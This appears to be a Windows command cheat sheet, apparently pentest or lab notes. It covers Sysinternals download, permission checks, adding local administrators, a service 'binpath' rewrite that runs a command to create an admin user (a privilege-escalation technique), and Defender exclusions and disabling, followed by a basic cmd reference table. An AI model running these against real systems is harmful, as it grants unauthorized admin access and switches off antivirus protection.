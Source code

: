 # windows

Download Sysinternals Suite:

```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://download.sysinternals.com/files/SysinternalsSuite.zip' -OutFile '.\SysinternalsSuite.zip'"
```

Extract ZIP file:

```cmd
powershell -Command "Expand-Archive -Path '.\SysinternalsSuite.zip' -DestinationPath '.\SysinternalsSuite'"
```

Check user permissions:

```cmd
accesschk.exe -uwvc "normaluser" * 
```

Add user and assign to Administrators group:

```cmd
cmd /c cmd.exe /c "net user <username> <password> /add && net localgroup Administrators <username> /add"
```

Delete user and remove from Administrators group:

```cmd
cmd /c cmd.exe /c "net localgroup Administrators <username> /delete && net user <username> /delete"
```

Modify the configuration of a service:

```cmd
sc config <service> binpath="cmd /c cmd.exe /c net user <username> <password> /add && net localgroup Administrators <username> /add"
```

Exclude `C:\Temp` folder from Windows Defender:

```cmd
powershell -Command "Add-MpPreference -ExclusionPath 'C:\Temp'"
```

Retrieve list of exclusion paths configured in Windows Defender:

```cmd
powershell -Command "Get-MpPreference | Select-Object -ExpandProperty ExclusionPath"
```

Remove `C:\Temp` folder from Windows Defender exclusion list:

```cmd
powershell -Command "Remove-MpPreference -ExclusionPath 'C:\Temp'"
```

Disable Windows Defender:

```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true" 
```

Enable Windows Defender:

```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $false"
```

| Command                      | Description                                            |
| ---------------------------- | ------------------------------------------------------ |
| `cd path\to\folder`          | Change directory                                       |
| `cd ..`                      | Go to the parent folder                                |
| `cd`                         | Show current directory                                 |
| `dir`                        | List folder contents                                   |
| `mkdir NewFolder`            | Create a new folder                                    |
| `echo text > file.txt`       | Create a file                                          |
| `del file.txt`               | Delete a file                                          |
| `rmdir FolderName`           | Remove an empty folder                                 |
| `rmdir /s FolderName`        | Remove folder and its contents                         |
| `copy source.txt dest.txt`   | Copy a file                                            |
| `move source.txt dest.txt`   | Move a file                                            |
| `program.exe`                | Execute a program                                      |
| `findstr "text" file.txt`    | Search for specific text in a file (similar to `grep`) |
| `dir \| findstr ".txt"`      | List `.txt` files in the current folder                |
| `dir \| findstr "report"`    | List files with "report" in the name                   |
| `dir /S \| findstr "report"` | List files with "report" in the name in subfolders     |
